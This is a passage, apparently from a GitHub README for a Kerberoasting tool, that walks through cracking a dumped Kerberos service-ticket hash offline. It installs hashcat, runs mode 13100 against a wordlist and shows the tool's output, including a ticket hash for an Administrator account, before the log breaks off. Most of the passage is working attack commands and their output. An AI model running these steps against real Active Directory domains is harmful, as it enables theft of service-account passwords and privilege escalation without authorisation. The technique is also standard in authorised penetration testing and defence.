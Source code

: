 ```
8839b74263ddbd087c90b6262dd5684e078068c28ccc0c115e3
tickets written: 1
```

Copy the above hash to a file called hash.txt.

Ensure hashcat is installed: `msfuser@ubuntu:~/git/kerberoast$ sudo apt install hashcat`

With a word list of your choice run the following command:

```
msfuser@ubuntu:~/git/kerberoast$ hashcat -m 13100 --force -a 0 hash.txt wordlist.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz, 16384/41063 MB allocatable, 6MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64
 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3
 -D DGST_ELEM=4 -D KERN_TYPE=13100 -D _unroll'
 
* Device #1: Kernel m13100_a0-pure.64a04b9e.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: wordlist.txt
* Passwords.: 3
* Bytes.....: 33
* Keyspace..: 3
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
<truncated due to size>

Session..........: hashcat
```